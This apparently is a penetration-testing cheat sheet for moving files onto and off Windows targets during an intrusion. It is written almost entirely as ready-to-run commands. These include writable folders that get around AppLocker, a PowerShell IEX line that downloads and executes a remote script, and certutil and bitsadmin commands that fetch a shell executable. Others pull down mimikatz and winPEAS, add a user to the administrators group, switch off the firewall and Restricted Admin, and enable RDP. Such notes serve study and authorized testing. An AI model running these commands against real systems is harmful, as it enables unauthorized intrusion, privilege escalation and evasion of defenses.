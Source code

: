 # Transfer Files

## <mark style="color:red;">Placing files in writeable paths</mark>

{% embed url="https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md" %}

The following folders are by default writable by normal users (depends on Windows version - This is from W10 1803)

```bash
C:\Windows\Tasks 
C:\Windows\Temp 
C:\windows\tracing
C:\Windows\Registration\CRMLog
C:\Windows\System32\FxsTmp
C:\Windows\System32\com\dmp
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\PRINTERS
C:\Windows\System32\spool\SERVERS
C:\Windows\System32\spool\drivers\color
C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\System32\Tasks_Migrated (after peforming a version upgrade of Windows 10)
C:\Windows\SysWOW64\FxsTmp
C:\Windows\SysWOW64\com\dmp
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
```

## <mark style="color:red;">SMB</mark>

On Kali, extract the tools.zip archive to a directory. Change to this directory and run either of the following to set up an SMB server:

```python
python3 /usr/share/doc/python3-impacket/examples/smbserver.py tools .
python /usr/share/doc/python-impacket/examples/smbserver.py tools .
```

Support for smb2

```bash
python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support tools $(pwd)
```

To copy files from Kali to Windows:

```shell
copy \\192.168.1.11\tools\file.ext file.ext
```

&#x20;To copy files from Windows to Kali:

```bash
copy file.ext \\192.168.1.11\tools\file.ext
```

Connecting from Windows to Kali SMB

```bash
# Kali - host SMB share
$ python3 /usr/share/doc/python3-impacket/examples/smbserver.py [sharename] [/path/to/share]  # setup local share

# Target - connect to share
cmd> net view \\[kali]              # view remote shares
cmd> net use \\[kali]\[share]       # connect to share
cmd> copy \\[kali]\[share]\[src_file] [/path/to/dest_file]  # copy file
```

## <mark style="color:red;">RDP</mark>

Enable RDP Powershell:

```powershell
Set-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server' -Name "fDenyTSConnections" -Value 0
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
or
reg add "HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```

Connect using xfreerdp:

<pre class="language-bash"><code class="lang-bash">xfreerdp /u:&#x3C;USERNAME> /p:&#x3C;PASSWORD> /v:&#x3C;TARGET_IP>
<strong>proxychains xfreerdp /u:&#x3C;USERNAME> /p:&#x3C;PASSWORD> /v:&#x3C;TARGET_IP>
</strong></code></pre>

If RDP is available (or we can enable it), we can add our low privileged user to the administrators group and then spawn an administrator command prompt via the GUI:

```
> net localgroup administrators <username> /add
```

Enable RDP and add User to:

```bash
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
netsh advfirewall set allprofiles state off
net localgroup "remote desktop users" alice /add
```

## <mark style="color:red;">Powershell .ps1</mark>

This is a simple powershell script to download files:

```powershell
$baseUrl = "http://192.168.119.139/"
$fileNames = @("PowerUP.ps1", "PowerView.ps1", "mimikatz.exe", "winPEASany.exe")
$downloadPath = "C:\Winodws\Tasks"

foreach ($fileName in $fileNames) {
    $url= $baseUrl + $fileName
    $filePath = Join-Path $downloadPath $fileName
    Invoke-WebRequest -Uri $url -OutFile $filePath
    Write-Host "Downloaded $fileName to $filePath"
}
```

## <mark style="color:red;">Powershell</mark>

```powershell
# Download file from remote to local
powershell -c (New-Object Net.WebClient).DownloadFile('http://[host]:[port]/[file]', '[file]')
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"

# Execute remote PS script
PS> IEX (New-Object System.Net.WebClient).DownloadString('http://[kali]/[script].ps1')
```

## <mark style="color:red;">IWR</mark>

From Windows:

```
IWR -Uri http://KALI_IP:PORT -OutFile C:\Path\To\File
```

## <mark style="color:red;">Certutil</mark>

From kali:

```
python3 -m http.server 9999
```

From Windows CMD:

```powershell
certutil -urlcache -split -f http://<kali_ip>:9999/shell_445.exe C:\\Windows\\Tasks\\shell_445.exe
```

## <mark style="color:red;">Bitsadmin</mark>

From Windows cmd:

```
bitsadmin /transfer badthings http://[kali]:[port]/[src_file] [dest_file]
```

## <mark style="color:red;">SSH server</mark>

Let’s download a file to our Kali box using SCP. Start a SSH server if it is not already running

```
systemctl start ssh.socket 
```

```bash
# Download from Kali
scp <username>@<kali_ip>:C:/Windows/Tasks/file.txt . 

# Upload from Target
scp /tmp/linpeas.out kali@<kali_ip>:/home/kali/Offensive/PGs/
```

## <mark style="color:red;">Netcat</mark>

Windows:

```bash
C:\Users\offsec> nc -nlvp 4444 > incoming.exe
listening on [any] 4444 ...
```

Kali:

```bash
kali@kali:~$ locate wget.exe
/usr/share/windows-resources/binaries/wget.exe

kali@kali:~$ nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
(UNKNOWN) [10.11.0.22] 4444 (?) open
```

The connection is received by Netcat on the Windows machine as shown below:

```powershell
C:\Users\offsec> nc -nlvp 4444 > incoming.exe
listening on [any] 4444 ...
connect to [10.11.0.22] from <UNKNOWN) [10.11.0.4] 43459
^C
C:\Users\offsec>
```

## <mark style="color:red;">Socat</mark>&#x20;

Alice wants to share a file with Bob:

```bash
kali@kali:~$ sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt
```

Bob downloads the file from Alice host:

```powershell
C:\Users\offsec> socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
```

## <mark style="color:red;">Servers</mark>

### <mark style="color:blue;">Python2</mark>

```bash
python -m SimpleHTTPServer 7331
```

### <mark style="color:blue;">Python3</mark>

```bash
python3 -m http.server 7331
```

### <mark style="color:blue;">PHP</mark>

```bash
php -S 0.0.0.0:8000
```

### <mark style="color:blue;">Ruby</mark>

```bash
ruby -run -e httpd . -p 9000
```

### <mark style="color:blue;">Busybox</mark>

```bash
busybox httpd -f -p 10000
```
